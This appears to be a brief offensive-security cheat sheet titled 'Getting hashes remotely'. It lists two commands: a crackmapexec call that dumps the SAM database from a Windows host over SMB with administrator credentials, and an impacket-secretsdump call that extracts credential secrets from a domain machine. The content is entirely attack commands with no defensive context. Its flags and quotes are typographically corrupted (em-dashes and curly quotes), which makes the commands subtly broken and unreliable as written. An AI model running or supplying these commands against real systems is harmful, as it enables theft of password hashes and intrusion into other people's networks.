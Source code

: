 # Getting hashes remotely

```

#crackmapexec
crackmapexec smb 172.30.1.102 -u Administrator -p “Pass12” —local-auth —sam

#secretsdump
impacket-secretsdump mydomain/windowsuser:"strongpassword"@10.10.10.10
```
